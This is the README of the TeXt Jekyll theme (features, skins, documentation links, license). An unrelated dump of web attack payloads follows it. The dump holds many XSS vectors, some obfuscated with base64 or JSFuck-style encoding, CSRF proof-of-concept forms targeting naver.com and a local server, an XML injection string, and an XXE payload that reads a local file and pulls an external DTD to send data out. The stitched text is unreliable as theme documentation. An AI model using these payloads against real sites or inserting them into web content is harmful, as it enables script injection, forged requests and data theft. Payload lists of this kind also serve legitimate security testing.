 # [TeXt Theme](https://github.com/kitian616/jekyll-TeXt-theme)

[![Gem Version](https://img.shields.io/gem/v/jekyll-text-theme.svg)](https://github.com/kitian616/jekyll-TeXt-theme/releases)
[![license](https://img.shields.io/github/license/kitian616/jekyll-TeXt-theme.svg)](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/LICENSE)
[![Travis](https://img.shields.io/travis/kitian616/jekyll-TeXt-theme.svg)](https://travis-ci.org/kitian616/jekyll-TeXt-theme)

![TeXt Theme](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/TeXt-home.jpg)

![TeXt Theme Details](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/TeXt-layouts.png)

TeXt is a super customizable Jekyll theme for personal site, team site, blog, project, documentation, etc. Similar to iOS 11 style, it has large and prominent titles, round buttons and cards.

[Change Log](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/CHANGELOG.md) | [中文文档](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/README-zh.md)

## Features

- Responsive
- Semantic HTML
- Skins
- Highlight Theme
- Multi-language support
- Search
- Table of contents
- Authors (Email, Facebook, Twitter, Linkedin, Weibo, Zhihu, etc)
- Additional styles (alert, tag, image, icon, button, grid, etc)
- Extensions (audios, videos, slides)
- Markdown enhancements ([MathJax](https://www.mathjax.org/), [mermaid](https://mermaidjs.github.io/), [chartjs](http://www.chartjs.org/))
- Sharing ([AddToAny](https://www.addtoany.com/))
- Comments ([Disqus](https://disqus.com/))
- Pageview ([LeanCloud](https://leancloud.cn/))
- Analytics (Google Analytics)
- RSS ([jekyll-feed](https://github.com/jekyll/jekyll-feed))

## Skins

TeXt has 6 built-in skins, you can also set up your own skin.

| `default` | `dark` | `forest` |
| --- |  --- | --- |
| ![Default](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_default.jpg) | ![Dark](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_dark.jpg) | ![Forest](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_forest.jpg) |

| `ocean` | `chocolate` | `orange` |
| --- |  --- | --- |
| ![Ocean](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_ocean.jpg) | ![Chocolate](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_chocolate.jpg) | ![Orange](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/skins_orange.jpg) |

### Highlight Theme

TeXt use [Tomorrow](https://github.com/chriskempson/tomorrow-theme) as the highlight theme.

| `tomorrow` | `tomorrow-night` | `tomorrow-night-eighties` | `tomorrow-night-blue` | `tomorrow-night-bright` |
| --- |  --- | --- | --- |  --- |
| ![Tomorrow](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow.png) | ![Tomorrow Night](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night.png) | ![Tomorrow Night Eighties](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night-eighties.png) | ![Tomorrow Night Blue](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night-blue.png) | ![Tomorrow Night Bright](https://raw.githubusercontent.com/kitian616/jekyll-TeXt-theme/master/screenshots/highlight_tomorrow-night-bright.png) |

## Documentation

### Start

- [Quick Start](https://tianqi.name/jekyll-TeXt-theme/docs/en/quick-start)
- [Update form 1.x to 2.x](https://tianqi.name/jekyll-TeXt-theme/docs/en/update-form-1-to-2)

### Customization

- [Configuration](https://tianqi.name/jekyll-TeXt-theme/docs/en/configuration)
- [Navigation](https://tianqi.name/jekyll-TeXt-theme/docs/en/navigation)
- [Layouts](https://tianqi.name/jekyll-TeXt-theme/docs/en/layouts)
- [Logo and Favicon](https://tianqi.name/jekyll-TeXt-theme/docs/en/logo-and-favicon)
- [Authors](https://tianqi.name/jekyll-TeXt-theme/docs/en/authors)

### Content

- [Writing Posts](https://tianqi.name/jekyll-TeXt-theme/docs/en/writing-posts)
- [Additional styles](https://tianqi.name/jekyll-TeXt-theme/docs/en/additional-styles)
- [Extensions](https://tianqi.name/jekyll-TeXt-theme/docs/en/extensions)
- [Markdown Enhancements](https://tianqi.name/jekyll-TeXt-theme/docs/en/markdown-enhancements)

## Demo Pages

| Name | Description |
| --- | --- |
| [Home](https://tianqi.name/jekyll-TeXt-theme/test/) | Home page |
| [Archive](https://tianqi.name/jekyll-TeXt-theme/archive.html) | Archive page |
| [Layout Examples](https://tianqi.name/jekyll-TeXt-theme/samples.html) | Examples for different layouts |

## License

TeXt Theme is [MIT licensed](https://github.com/kitian616/jekyll-TeXt-theme/blob/master/LICENSE).

<video src onratechange="alert(1)">
<A HREF='&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;'>XSS</A>
<input type="hidden" name="xsstest" value="hwul" accesskey="X" onclick="alert(45)" a=" ">
<img src=asdf onerror=confirm(1)>
<body onscroll=alert(1)>
<img src=1 onmouseenter=alert(1)>
<video src="http://10.67.17.137/test.mp4" onprogress="alert(1)"></video>
<video src="http://10.67.17.137/test.mp4" onprogress="confirm(1)"></video>
<video src="http://10.67.17.137/test.mp4" onprogress="prompt(1)"></video>
<video src="http://www.808.dk/vstreamer.asp?video=gizmo.mp4" onprogress="prompt(1)"></video>
<video onsuspend="alert(1)" src="http://www.808.dk/vstreamer.asp?video=gizmo.mp4"></video>
http://www.808.dk/vstreamer.asp?video=gizmo.mp4
https://dev.lifeiscomic.com/video/video.mp4
<video onsuspend=document.location.href="http://google.com" src="http://10.67.17.137/test.mp4"></video>
<input/autofocus/ONFOCUS=alert(2)>
`${Function`_${atob`CmFsZXJ0KCJSZWZsZWN0ZWQgWFNTIHZ1bG5lcmFiaWxpdHkgb24gTmF2ZXIhIik7Cgo=`}__```}`
.testphp.vulnweb.com/
공격 구문 1
%22+onmouseover="document.location='http://google.com'"+a
공격 구문 2
%22onmouseover="var a='<';var b='script>';var c='/script>';var d='aler';var e='t(1)';document.write(a%2Bb%2Bd%2Be%2Ba%2Bc);"+a
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
<input type="search" onsearch=prompt(1) autofocus>
<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==></object>
<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>XSS</a>
data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7
<embed src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
image/svg+xml
<?xml version="1.0" encoding="ISO-8859-1"?><html:html xmlns:html='http://www.w3.org/1999/xhtml'><html:script>alert(1);</html:script></html:html>
<div style="z-index:999999;position:fixed;top:0;left:0">
<form action='http://naver.com' method="get" id="csrf_poc">
<input type="submit" value="Replay!" style="height:9999px; width:9999px; background-color:transparent;" />
</form>
</div>
a
<svg
onload=confirm(99);>
<object data="javascript:alert(1)"></object>
<body onscroll=document.location.href="http://google.com">
<video src=http://10.67.17.137/test.mp4 onprogress=document.location.href="http://google.com"></video>
<video src=http://10.67.17.137/test.mp4 onprogress=document.location.href="http://google.com"></video>
<video src=http://*.*.*.*/test.mp4 onprogress=document.location.href="http://google.com"></video>
"><marquee/onstart=confirm(1)>
<img src="http://3b.game.naver.com/board_proc/board_act.html?Mode=reply&idx=139&BoardName=freeboard&FolderName=%2Fcommunity%2F&Reidx=&sReContent=csrf">
<html ontouchstart=alert(1)>
<html ontouchend=alert(1)>
<html ontouchmove=alert(1)>
<html ontouchcancel=alert(1)>
<body onorientationchange=alert(1)>
`${Function`_${atob`YWxlcnQoIm9pb2kiKTsKbG9jYXRpb24uaHJlZiA9ICJodHRwOi8vd3d3Lm9pb2kuY29tIjs=`}__```}`
XML Injection (xss)
clubid=28490194&nameCardIntro=validskadf&club.clubid=28490194&disableThemeDir1Id=&disableThemeDir2Id=&disableAreaDir1Id=&disableAreaDir2Id=&oldopentype=H&club.opentype=H&club.openCafeConvertStatus=&club.clubname=]]></clubname><html:script>alert(1)</html:script><![CDATA[&mobileAppCafe.c
<img src=1 onerror=$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\\\"+$.__$+$.$$_+$._$_+$.__+"(\\\\\\"\\\\"+$.__$+$.__$+$.___+$.$$$_+(![]+"")[$._$_]+(![]+"")[$._$_]+$._$+"\\\\\\")"+"\\"")())();>
<form method="POST" action="http://localhost:8000/users/1" accept-charset="UTF-8">
   <input name="_method" type="hidden" value="PUT">
   <input type="submit">
</form>
<--`<img/src=` onerror=alert(1)> --!>
<iframe/src \\/\\/onload = prompt(1)
<!DOCTYPE roottag [
<!ENTITY % file SYSTEM "file:///etc/pwd1">
<!ENTITY % dtd SYSTEM "http://10.67.17.247/ext.dtd">
%dtd;
%send;]>
<img srcset=1 onerror="alert(1)">
<iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />
<details open ontoggle="alert(1)">
<x contenteditable onblur=alert(1)>
<script src="data:text/plain,alert('oioi')"></script>
<script src=data:,alert('oioi')></script>
<img src=1 onerror="(function(){alert(event.type);})()">
<--`<img/src=` onerror=alert(1)> --!>
<svg%0Aonload=%09((pro\\u006dpt))()//
<sCript x>(((confirm)))``</scRipt x>
<svg/x=">"/onload=confirm()//
<svg </onload ="1> (_=prompt,_(1)) "">
